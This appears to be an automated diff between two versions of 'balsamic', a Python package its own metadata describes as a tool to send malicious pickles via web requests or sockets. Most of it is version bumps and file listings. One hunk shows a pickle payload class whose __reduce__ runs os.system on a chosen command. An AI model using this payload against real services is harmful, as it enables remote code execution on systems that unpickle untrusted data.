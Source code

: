 # Comparing `tmp/balsamic-0.1.94.tar.gz` & `tmp/balsamic-0.1.95.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "balsamic-0.1.94.tar", last modified: Sat May 18 02:58:58 2024, max compression
+gzip compressed data, was "balsamic-0.1.95.tar", last modified: Sat May 18 03:01:14 2024, max compression
```

## Comparing `balsamic-0.1.94.tar` & `balsamic-0.1.95.tar`

### file list

```diff
@@ -1,15 +1,15 @@
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:58:58.342959 balsamic-0.1.94/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 02:58:58.342959 balsamic-0.1.94/PKG-INFO
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1604 2024-05-17 23:29:20.000000 balsamic-0.1.94/README.md
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:58:58.342959 balsamic-0.1.94/balsamic/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-17 19:32:39.000000 balsamic-0.1.94/balsamic/__innit__.py
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2226 2024-05-18 02:50:42.000000 balsamic-0.1.94/balsamic/__main__.py
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1761 2024-05-18 02:58:30.000000 balsamic-0.1.94/balsamic/balsamic.py
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:58:58.342959 balsamic-0.1.94/balsamic.egg-info/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/PKG-INFO
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)      241 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/SOURCES.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/dependency_links.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/requires.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/top_level.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)       38 2024-05-18 02:58:58.342959 balsamic-0.1.94/setup.cfg
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1144 2024-05-18 02:58:34.000000 balsamic-0.1.94/setup.py
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:01:14.412780 balsamic-0.1.95/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 03:01:14.412780 balsamic-0.1.95/PKG-INFO
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1604 2024-05-17 23:29:20.000000 balsamic-0.1.95/README.md
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:01:14.412780 balsamic-0.1.95/balsamic/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-17 19:32:39.000000 balsamic-0.1.95/balsamic/__innit__.py
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2226 2024-05-18 02:50:42.000000 balsamic-0.1.95/balsamic/__main__.py
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1739 2024-05-18 03:00:48.000000 balsamic-0.1.95/balsamic/balsamic.py
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:01:14.412780 balsamic-0.1.95/balsamic.egg-info/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/PKG-INFO
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)      241 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/SOURCES.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/dependency_links.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/requires.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/top_level.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)       38 2024-05-18 03:01:14.412780 balsamic-0.1.95/setup.cfg
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1144 2024-05-18 03:00:57.000000 balsamic-0.1.95/setup.py
```

### Comparing `balsamic-0.1.94/PKG-INFO` & `balsamic-0.1.95/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: balsamic
-Version: 0.1.94
+Version: 0.1.95
 Summary: Send malicious pickles via requests or sockets
 Author: Witchdoctor (malectrica)
 Keywords: python,hack,pickle,serialization,security,sockets,web
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Intended Audience :: Developers
 Classifier: Programming Language :: Python :: 3
 Classifier: Operating System :: Unix
```

### Comparing `balsamic-0.1.94/README.md` & `balsamic-0.1.95/README.md`

 * *Files identical despite different names*

### Comparing `balsamic-0.1.94/balsamic/__main__.py` & `balsamic-0.1.95/balsamic/__main__.py`

 * *Files identical despite different names*

### Comparing `balsamic-0.1.94/balsamic/balsamic.py` & `balsamic-0.1.95/balsamic/balsamic.py`

 * *Files 3% similar despite different names*

```diff
@@ -9,15 +9,14 @@
 
 	def b64pickle(payload):
 		p=getattr(payloads,payload)
 		p=base64.b64encode(pickle.dumps(p()))
 		return p
 	def plainpickle(payload):
 		p=getattr(payloads,payload)
-		p=p.encode("utf-8")
 		return p
 
 class payloads:
 	class oscmd:
 		def __reduce__(self):
 			import os
 			return (os.system, (utility.command,))
```

### Comparing `balsamic-0.1.94/balsamic.egg-info/PKG-INFO` & `balsamic-0.1.95/balsamic.egg-info/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: balsamic
-Version: 0.1.94
+Version: 0.1.95
 Summary: Send malicious pickles via requests or sockets
 Author: Witchdoctor (malectrica)
 Keywords: python,hack,pickle,serialization,security,sockets,web
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Intended Audience :: Developers
 Classifier: Programming Language :: Python :: 3
 Classifier: Operating System :: Unix
```

### Comparing `balsamic-0.1.94/setup.py` & `balsamic-0.1.95/setup.py`

 * *Files 10% similar despite different names*

```diff
@@ -3,15 +3,15 @@
 import os
 
 here = os.path.abspath(os.path.dirname(__file__))
 
 with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
     long_description = "\n" + fh.read()
 
-VERSION = '0.1.94'
+VERSION = '0.1.95'
 DESCRIPTION = 'Send malicious pickles via requests or sockets'
 LONG_DESCRIPTION = 'A package that allows the user to easily send out malicious pickles, via web requests, or a malicious server or client(currently ipv4 only)'
 
 # Setting up
 setup(
     name="balsamic",
     version=VERSION,
```

